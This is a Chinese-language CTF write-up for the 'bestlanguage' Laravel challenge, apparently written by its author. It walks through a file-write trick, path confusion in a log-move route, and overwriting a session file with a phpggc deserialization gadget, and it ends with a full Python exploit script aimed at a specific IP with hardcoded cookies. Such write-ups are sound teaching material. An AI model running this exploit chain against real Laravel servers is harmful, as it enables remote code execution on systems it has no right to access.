 # bestlanguage

## 非预期
laravel 低版本CVE-2018-15133，直接反序列化RCE了，出题人心态炸裂

## 预期

此题来源于真实业务改编


## 写文件
Docker/app/app/Http/Controllers/IndexController.php
第一步的考点是写文件，估计大部分人访问upload接口都是500
因为file_put_contents是不能跨目录新建文件的
```php
public function upload()
{

    if(strpos($_POST["filename"], '../') !== false) die("???");
    file_put_contents("/var/tmp/".md5($_SERVER["REMOTE_ADDR"])."/".$_POST["filename"],base64_decode($_POST["content"]));
    echo "/var/tmp/".md5($_SERVER["REMOTE_ADDR"])."/".$_POST["filename"];
}
```
由于init目录只能内网访问，md5($_SERVER["REMOTE_ADDR"])这个目录是不存在的，所以file_put_contents无法写成功
返回会一直500，这个本地搭建开debug就能发现

第一个考点就是如何让文件落地，file_put_contents有个trick，如果写入的文件名是xxxxx/.
那么/.会被忽略，会直接写入xxxxx文件

所以我们传入filename=.
即可在/var/tmp下生成md5($_SERVER["REMOTE_ADDR"])文件
### move
文件落地以后就可以通过move/log路由对文件进行移动了
```php
public function moveLog($filename)
{

    $data =date("Y-m-d");
    if(!file_exists(storage_path("logs")."/".$data)){
        mkdir(storage_path("logs")."/".$data);
    }
    $opts = array(
        'http'=>array(
            'method'=>"GET",
            'timeout'=>1,//单位秒
        )
    );

    $content = file_get_contents("http://127.0.0.1/tmp/".md5('127.0.0.1')."/".$filename,false,stream_context_create($opts));
    file_put_contents(storage_path("logs")."/".$data."/".$filename,$content);
    echo storage_path("logs")."/".$data."/".$filename;
}
```
首先讲一个坑
```php
Route::get('/tmp/{filename}', function ($filename) {
    readfile("/var/tmp/".$filename);
})->where('filename', '(.*)');
```
这个路由是读不到flag的，因为nginx会对路径进行判断，如果输入的../超过了根目录，那么会直接返回400

| 请求路径                       | 状态码格    | 
| --------                      | -----   | 
| GET /../ HTTP/1.1             | 400      |  
| GET /123123/../                | 200      |  
| GET /%2e%2e%2f                  | 400      | 
| GET /123123/3123123/../          | 200      | 
| GET /123123/3123123/../../       | 200      | 
| GET /123123/3123123/../../../     | 400      | 

这个是nginx的判断，所以无法../跳到根目录

好，那movelog函数能做什么
他会去请求 `http://127.0.0.1/tmp/".md5('127.0.0.1')."/".$filename`
然后把返回结果写入
```php
$data =date("Y-m-d");
file_put_contents(storage_path("logs")."/".$data."/".$filename,$content);
```


我们可以输入 ?filename=../${md5(ip)} 访问到我们的文件
然后会写入到log目录下
由于上面我们虽然让文件落地了，但是文件名是md5 ip，不可控，但是我们可以通过url和路径的差异，用？或者#截断
所以输入 ../${md5(ip)}?/../../abcd
即可将我们落地的文件移动到任意目录下的任意文件名

当然这里还是受nginx影响，我们只能在storage里面任意写入文件

然而laravel的session也存在在storage目录里，我们直接覆盖session文件进行反序列化
本题用的laravel 5.5.39，phpggc里就有现成的反序列化链

laravel的session文件名不是常规的SESS_sessid，所以我放出了APP_KEY，本地搭建即可看到session文件名，
与远程是一样的

exp.py可以直接打获取flag(没有一个人用预期做的，心态崩了，随便写写wp
```php
import requests
import os
import base64
import urllib.request
import re

remote_ip = "39.104.19.182:8080"
md5_ip = "e4cfc06ac6f1336028e43916cf1d75d3"
phpggc_data = base64.b64encode(os.popen('php D:\脚本\phpggc\phpggc Laravel/RCE4 system "cat /flag"').read().encode("utf8"))



paramsPost = {"filename": "tmp/" + md5_ip}
headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
           "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
           "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0",
           "Connection": "close", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
           "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded"}
cookies = {"sessionid": "8k648uvlg2brp93id13fq0vvy6jaticd1",
           "csrftoken": "anYz8P4YYYwqB7yhFfPztk5rfp97qaBzzwtUeCswsfWroUzNgiD58QzbKE6OT2Dv",
           "laravel_session": "eyJpdiI6ImVmbllpOGtVeXQxQjZ4cXFEM3k0eXc9PSIsInZhbHVlIjoidVNvTWNocGp4cEdPdG5rWXVEVFdIb0UzRG5KcThxTk5uU3lKdjFXbzRMdXlHUkVrcFNtV0ZRa1JUYUhSUXJrSlduZHU1MDJWZUZVaG1qODFxRjJoakE9PSIsIm1hYyI6ImYyZTQ3ZmZkNDRlYjQ5MGY2OGUzMzM1NjlkYTZjOTc1MGUzZGQyMWIwYTBkYzgyNmUyNjA5NTJjNWU0NGE1YzMifQ%3D%3D"}
response = requests.post("http://" + remote_ip + "/rm", data=paramsPost, headers=headers, cookies=cookies)

print("clear file")
print("Response body: %s" % response.content)


paramsPost = {"content":phpggc_data,"filename":"."}
headers = {"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8","Cache-Control":"max-age=0","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0","Connection":"close","Accept-Language":"zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2","Accept-Encoding":"gzip, deflate","Content-Type":"application/x-www-form-urlencoded"}
cookies = {"sessionid":"8k648uvlg2brp93id13fq0vvy6jaticd1","csrftoken":"anYz8P4YYYwqB7yhFfPztk5rfp97qaBzzwtUeCswsfWroUzNgiD58QzbKE6OT2Dv","laravel_session":"eyJpdiI6ImVmbllpOGtVeXQxQjZ4cXFEM3k0eXc9PSIsInZhbHVlIjoidVNvTWNocGp4cEdPdG5rWXVEVFdIb0UzRG5KcThxTk5uU3lKdjFXbzRMdXlHUkVrcFNtV0ZRa1JUYUhSUXJrSlduZHU1MDJWZUZVaG1qODFxRjJoakE9PSIsIm1hYyI6ImYyZTQ3ZmZkNDRlYjQ5MGY2OGUzMzM1NjlkYTZjOTc1MGUzZGQyMWIwYTBkYzgyNmUyNjA5NTJjNWU0NGE1YzMifQ%3D%3D"}
response = requests.post("http://"+remote_ip+"/upload", data=paramsPost, headers=headers, cookies=cookies)

print("upload file")
print("Response body: %s" % response.content)

response = urllib.request.urlopen("http://"+remote_ip+"/move/log/../"+md5_ip+"%3f/../../framework/sessions/BDDLh0HsqaXe54sPFUuzMT7azrLUC9JGtw1SNdZV")
print("move file")
print("Response body: %s" % response.read().decode('utf-8'))

headers = {"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8","Cache-Control":"max-age=0","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0","Connection":"close","Accept-Language":"zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2","Accept-Encoding":"gzip, deflate"}
cookies = {"sessionid":"8k648uvlg2brp93id13fq0vvy6jaticd1","csrftoken":"anYz8P4YYYwqB7yhFfPztk5rfp97qaBzzwtUeCswsfWroUzNgiD58QzbKE6OT2Dv","laravel_session":"eyJpdiI6ImVmbllpOGtVeXQxQjZ4cXFEM3k0eXc9PSIsInZhbHVlIjoidVNvTWNocGp4cEdPdG5rWXVEVFdIb0UzRG5KcThxTk5uU3lKdjFXbzRMdXlHUkVrcFNtV0ZRa1JUYUhSUXJrSlduZHU1MDJWZUZVaG1qODFxRjJoakE9PSIsIm1hYyI6ImYyZTQ3ZmZkNDRlYjQ5MGY2OGUzMzM1NjlkYTZjOTc1MGUzZGQyMWIwYTBkYzgyNmUyNjA5NTJjNWU0NGE1YzMifQ%3D%3D"}
response = requests.get("http://"+remote_ip+"/tmp/123", headers=headers, cookies=cookies)

print("exploit success!")
res = response.content.decode("utf-8")
print(re.search(r"(.*)<!DOCTYPE html>",res,re.S).group(1))
```

